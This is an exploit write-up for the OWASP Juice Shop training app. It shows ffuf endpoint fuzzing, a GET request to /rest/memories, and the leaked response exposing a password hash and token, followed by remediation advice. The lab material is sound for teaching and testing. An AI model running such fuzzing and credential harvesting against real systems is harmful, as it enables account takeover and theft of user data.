


# Exploit Report: Sensitive Information Disclosure

## Vulnerability Overview

* **Vulnerability Type:** Sensitive Information Disclosure / Excessive Data Exposure (OWASP A01:2021 – Broken Access Control / A04:2021)
* **Target Endpoint:** Memories API (`http://localhost:3000/rest/memories`)
* **Vulnerable Parameter / Method:** `GET /rest/memories`
* **Severity:** High
* **Exploitation Status:** Successfully Exploited

---

## Technical Description

Sensitive Information Disclosure occurs when an application exposes confidential data—such as password hashes, session tokens, user roles, or personal identifiable information (PII)—to unauthorized users or unauthenticated clients. 

In OWASP Juice Shop, API endpoint discovery using directory fuzzing revealed the hidden `/rest/memories` endpoint. When queried via an HTTP `GET` request, this endpoint serializes and returns user memory entries along with entire associated `User` database models. Because the application lacks response field filtering or object data redaction, it leaks sensitive user account attributes including email addresses, password hashes (MD5), deluxe membership tokens, and user IDs.

---

## Proof of Concept & Exploitation Steps

### Step 1: Endpoint Discovery via Fuzzing

Using `ffuf` and a custom wordlist (`wordlist.txt`), fuzz the REST API path to discover hidden or undocumented endpoints, filtering out HTTP 500 server errors:

```bash
ffuf -u http://localhost:3000/rest/FUZZ -w wordlist.txt -fc 500
```

The fuzzer flags multiple valid endpoints, notably `memories` returning HTTP 200 with a response size of 6,183 bytes:

```text
captcha                 [Status: 200, Size: 46, Words: 1, Lines: 1, Duration: 1597ms]
memories                [Status: 200, Size: 6183, Words: 36, Lines: 1, Duration: 2303ms]
```

### Step 2: Querying the Leaked Data

Issue an HTTP `GET` request to `/rest/memories` using Burp Suite Repeater or `curl`:

```http
GET /rest/memories HTTP/1.1
Host: localhost:3000
Accept: application/json, text/plain, */*
```

### Step 3: Response Analysis & Credential Extraction

The server responds with `200 OK` and a JSON array containing user memory objects with fully populated `User` objects:

```json
{
  "status": "success",
  "data": [
    {
      "UserId": 13,
      "id": 1,
      "caption": "🐕 #zatschi #whoneedsfourlegs",
      "imagePath": "assets/public/images/uploads/...",
      "createdAt": "2026-10-09T20:00:14.429Z",
      "updatedAt": "2026-10-09T20:00:14.429Z",
      "User": {
        "id": 13,
        "username": "",
        "email": "bjoern@owasp.org",
        "password": "9283f1b2e9669749081963be0462e466",
        "role": "deluxe",
        "deluxeToken": "efe2f1599e2d93440d5243a1ffaf5a413b70cf3ac97156bd6fab9b5ddfcbe0e4",
        "lastLoginIp": "",
        "profileImage": "assets/public/images/uploads/13.jpg",
        "totpSecret": "",
        "isActive": true,
        "createdAt": "2026-10-09T20:00:11.124Z",
        "updatedAt": "2026-10-09T20:00:11.124Z",
        "deletedAt": null
      }
    }
  ]
}
```

The response exposes the email `bjoern@owasp.org`, the MD5 password hash `9283f1b2e9669749081963be0462e466`, and the active `deluxeToken`.

---

## Evidence & Screenshots



*Figure 1: Discovering the unlinked `/rest/memories` endpoint using ffuf directory fuzzing with wordlist.txt.*


*Figure 2: Inspecting the GET /rest/memories response in Burp Suite Repeater, exposing user emails, password hashes, and deluxe tokens.*

---

## Real-World Impact

* **Credential Harvesting & Offline Cracking:** Attackers can collect user password hashes and crack them offline using tools such as Hashcat or John the Ripper to obtain plaintext credentials.
* **Account Takeover:** Leaked emails combined with cracked passwords or leaked session/deluxe tokens allow direct compromise of affected accounts.
* **Mass Reconnaissance & PII Exposure:** Exposing internal user structures aids attackers in profiling user privileges (`role: "deluxe"`) and identifying administrative or high-value targets across the platform.

---

## Remediation & Mitigation

### 1. Data DTO Filtering / Response Model Sanitization

Never return raw ORM entities directly to the client. Define specific Data Transfer Objects (DTOs) or use model projection/whitelisting to exclude sensitive attributes like `password`, `totpSecret`, and `deluxeToken`:

```javascript
// Sequelize attribute projection example
models.Memory.findAll({
  include: [{
    model: models.User,
    attributes: ['id', 'username', 'profileImage'] // Explicitly exclude password and tokens
  }]
});
```

### 2. Implement Access Control on Hidden Endpoints

Ensure that endpoints returning user-generated memories or personal data require proper authentication and verify that the requesting user has legitimate authorization to access the referenced data.

### 3. Enforce Strong Password Hashing

Upgrade legacy hashing algorithms (such as MD5) to modern, computationally expensive password hashing algorithms (e.g., Argon2id or bcrypt with appropriate work factors) to protect against offline cracking in the event of data leakage.

---

